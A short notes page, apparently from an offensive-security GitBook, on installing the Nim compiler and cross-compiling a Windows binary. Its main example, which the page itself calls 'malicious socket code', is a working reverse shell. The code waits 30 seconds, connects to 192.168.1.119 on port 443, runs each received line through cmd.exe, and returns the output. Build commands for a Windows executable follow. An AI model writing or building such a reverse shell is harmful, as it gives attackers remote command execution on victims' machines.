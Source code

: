 ```yaml
---
description: 05-11-2023
---
```


# Nim

## Installation

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

chown:

```
sudo chown -R $(whoami) /opt/homebrew/Cellar/mingw-w64/11.0.0/
```

Add to PATH:

```
fish_add_path /opt/homebrew/bin/
export PATH=/opt/homebrew/bin/
```

## Example Build

test.nim (malicious socket code):

```
import net, osproc, strformat, times

let now1 = now() + 30.seconds
var i = 1

while now() <= now1:
    var i = i + 1

let
    ip = "192.168.1.119"
    port = 443
    sock = newSocket()

sock.connect(ip, Port(port))

let prompt = "Nim-Shell> "
while true:
    send(sock, prompt)
    let bad = recvLine(sock)
    let cmd = execProcess(fmt"cmd.exe /C " & bad)
    send(sock, cmd)
```

Build:

```
nim c -d:x86_64-w64-mingw32-gcc test.nim
```

You should then see <mark style="color:blue;">**SuccessX**</mark>:

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

You will then have an executable test binary.

## Testing code (run and compile for your current arch.)

```
nim c --run test.nim
```
